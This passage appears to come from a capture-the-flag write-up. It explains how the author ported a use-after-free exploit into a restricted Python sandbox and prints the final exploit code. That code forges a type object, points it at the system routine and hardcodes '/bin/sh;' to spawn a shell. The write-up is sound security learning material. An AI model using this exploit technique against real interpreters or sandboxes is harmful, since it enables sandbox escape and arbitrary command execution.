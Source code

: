 Cool! Now comes the scary part, seeing whether this strategy is portable to the sandboxed environment.

Luckily, there were only two problems I had to deal with:

- The `class` keyword does not exist, so we can't declare types conventionally
- `global` is not a permitted keyword

We can overcome 1) with an overload of the `type` initializer. `type(name, bases, dict)` returns a new type, and we can specify members in `dict`.

We can overcome 2) by just using a global mutable data structure instead, like a `list`.

The final exploit:

```python
root = Tree('x')
dangling_ref = []

bytearray = dbg.Bytearray
print = dbg.Print
id = dbg.Id
hex = dbg.Hex
bytes = dbg.Bytes

def p64(x):
    return x.to_bytes(8, 'little')


def delfunc(x):
    dbg.Print("[+] Triggering UAF")
    dangling_ref.append(root.get_child_left())

# create our type in an unconventional manner
# "a".__class__.__class__ corresponds to `type`
X = "a".__class__.__class__("X", (), {"__del__":delfunc}) 


# for some reason we now need to store this.. I'm not sure why
z = []
def trigger():
    root.add_child_left(Tree(X()))
    z.append(Tree(None))
    root.add_child_left(z[0])

trigger()

print(dangling_ref[0])
a = bytearray(40)

# This is a bit messy but putting the constants in variables 
# seems to do heap things.. which is not desirable.

# 0x956900: pointer to the type of PyObjectType itself
# 0x4214f0: pointer to the system routine
r = p64(0xc) + p64(0x956900) + p64(0) + p64(0) + p64(0x28) + p64(0) + p64(0) + p64(0) + p64(0) + p64(0) + p64(0) + p64(0x4214F0) + 12 * p64(0)

# Print address of `r`
print(hex(id(r)))

a[0:8] = b"/bin/sh;"
a[8:16] = p64(id(r) + 0x20)

# if we just call print on the whole list it seems like we don't have the refcount problem
# print will call repr on the list, which will in turn call repr on every element  
```